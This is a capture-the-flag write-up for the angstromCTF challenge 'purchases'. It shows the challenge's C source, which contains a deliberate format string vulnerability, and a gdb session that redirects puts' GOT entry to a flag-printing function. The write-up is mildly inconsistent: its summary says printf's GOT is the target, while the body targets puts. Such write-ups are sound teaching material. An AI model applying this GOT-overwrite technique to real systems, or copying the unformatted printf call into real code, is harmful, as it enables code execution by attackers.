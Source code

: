 ## angstromCTF: purchases
>This grumpy shop owner won't sell me his flag! At least I have his source.

##### *tl;dr: format string vulnerability to overwrite printf GOT*
#### As with the other pwn challenges, the source codes are given - making the vulnerability finding process much easier:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	char item[60];
	printf("What item would you like to purchase? ");
	fgets(item, sizeof(item), stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}

	printf("Get out!\n");
	return 0;
}
```
#### Taking a quick look at the source code, we quickly spot the vulnerability which is the printf function being called without format specifiers (`printf(item);`). What this means is that printf interprets buffer as a format string, and parses any formatting instructions it may contain - thus leading to code executions and memory leaks. 
#### A format string exploit could be executed when the application doesn’t properly validate the submitted input. For example, if a format string parameter, like %x, is inserted into the posted data, the string is parsed by the format function, and the conversion specified in the parameters is executed. However, the format function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack. 
#### To have a better understanding of how we will exploit this challenge, here are quick links to `LiveOverflow`'s videos on format string exploitation:
> [A simple Format String exploit example - bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

> [Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

> [Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

> [Adapting the 32bit exploit to 64bit for format4 - bin 0x27](https://www.youtube.com/watch?v=_lO_rwaK_pY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=42)

#### Examining the source code again, we see that there is is a flag function which prints out the flag for us. Taking a note of this, our exploit plan will be to take advantage of the format string vulnerability to overwrite puts' `GOT address` to the flag function - thus making puts execute what flag does. To test if our plan would work, we try it out in gdb. We set a breakpoint before the puts call, then change the it's GOT address to the address of flag:
```
$ gdb ./purchases
	gdb-peda$ disas printf
	Dump of assembler code for function puts@plt:
	0x0000000000401030 <+0>:	jmp    QWORD PTR [rip+0x2fe2]        # 0x404018
	0x0000000000401036 <+6>:	push   0x0
	0x000000000040103b <+11>:	jmp    0x401020
	End of assembler dump..
	
	gdb-peda$ p flag
	$1 = {<text variable, no debug info>} 0x4011b6 <flag>
	
	gdb-peda$ disas main
	[...]
	0x000000000040131a <+337>:	call   0x401080 <printf@plt>
	0x000000000040131f <+342>:	lea    rdi,[rip+0xdda]        # 0x402100
	0x0000000000401326 <+349>:	call   0x401030 <puts@plt>
	0x000000000040132b <+354>:	mov    eax,0x0
	[...]
	
	gdb-peda$ break *0x0000000000401326
	Breakpoint 1 at 0x401326
	
	gdb-peda$ r
	What item would you like to purchase? everything
	You don't have any money to buy everythings. You're wasting your time! We don't even sell everythings. Leave this place and buy everything somewhere else. 
	Breakpoint 1, 0x0000000000401326 in main ()
	
	gdb-peda$ set {int}0x404018=0x4011b6
	
	gdb-peda$ x/ 0x404018
	0x404018:	0x00000000004011b6
	
	gdb-peda$ c
	Continuing.
	[New process 11726]
	process 11726 is executing new program: /bin/dash
	Warning:
	Cannot insert breakpoint 1.
	Cannot access memory at address 0x401326
```
#### To talk you through what just happened, first we disassembled the puts function and saw that the first thing it does is to jump to it's GOT entry address, `0x404018`. Now that we have the GOT address for puts, we printed out the address for flag, set a breakpoint before our puts call. After we hit the breakpoint, we set the contents of the GOT address to flag's address, then we validate if we have successfully overwriten the value. Continuing the process, the binary executes /bin/dash and proceeds to call the flag function.
